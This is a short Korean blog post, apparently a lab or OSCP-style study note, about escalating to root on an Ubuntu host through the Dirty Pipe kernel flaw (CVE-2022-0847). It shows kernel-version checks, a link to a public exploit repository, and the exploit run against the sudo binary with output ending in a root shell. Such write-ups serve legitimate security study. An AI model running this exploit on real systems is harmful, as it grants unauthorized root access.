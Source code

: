 ```yaml
---
layout: post
title: Dirtypipe 취약점
subtitle: 리눅스 커널 취약점을 이용한 권한상승
category: knowledge
thumbnail-img: /assets/img/knowledge/dirtypipe.png
tags: [linux, dirtypipe, kernel, CVE-2022-0847]
author: Hong
---
```

# 커널 버전 확인
아래의 명령어로 리눅스 커널의 버전을 확인한다.
```
cat /etc/issue
Ubuntu 20.04.5 LTS \n \l

uname -r
5.9.0-050900-generic

uname -a
Linux oscp 5.9.0-050900-generic #202010112230 SMP Sun Oct 11 22:34:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
항상 보던것과는 다른 듯한 버전..

취약점을 검색해보면 아래와 같이 dirtypipe 취약점이라는 것을 알게 된다.

[CVE-2022-0847 dirtypipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)

# 취약점 컴파일 후 실행
위의 소스코드는 컴파일을 할 필요가 있다.

이번엔 타겟 머신에 gcc와 git이 있는 것을 활용해서 직접 git clone한 후 컴파일 했다.

```
/tmp/CVE-2022-0847-DirtyPipe-Exploits$ ./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
```
페이로드로 sudo를 실행하는 것만으로 root권한을 획득했다!

커널 버전을 항상 눈여겨 볼 것.